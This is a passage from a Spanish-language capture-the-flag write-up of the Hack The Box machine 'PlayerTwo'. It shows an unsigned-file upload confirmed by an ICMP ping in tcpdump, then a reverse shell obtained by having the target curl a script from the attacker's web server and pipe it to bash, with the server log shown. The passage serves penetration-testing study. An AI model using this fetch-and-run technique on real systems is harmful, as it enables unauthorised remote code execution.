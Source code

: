 Y me envío una traza ICMP

<img src="/writeups/assets/img/PlayerTwo-htb/11.png" alt="">

Subo el archivo, no valida si la firma es válida. Me quedo en escucha con ```tcpdump``` y recibo el ```ping```

```null
tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:20:09.975992 IP 10.10.10.170 > 10.10.16.6: ICMP echo request, id 15717, seq 1, length 64
17:20:09.984803 IP 10.10.16.6 > 10.10.10.170: ICMP echo reply, id 15717, seq 1, length 64
```

Para enviarme la reverse shell, dado que no tengo el suficiente espacio como para introducir entero el payload, utilizo ```curl``` para tramitar una petición por GET a un archivo ```index.html``` en mi equipo y pipearlo con ```bash``` para que se interprete

<img src="/writeups/assets/img/PlayerTwo-htb/12.png" alt="">

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.170 - - [14/Jun/2023 17:46:24] "GET / HTTP/1.1" 200 -
```


 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test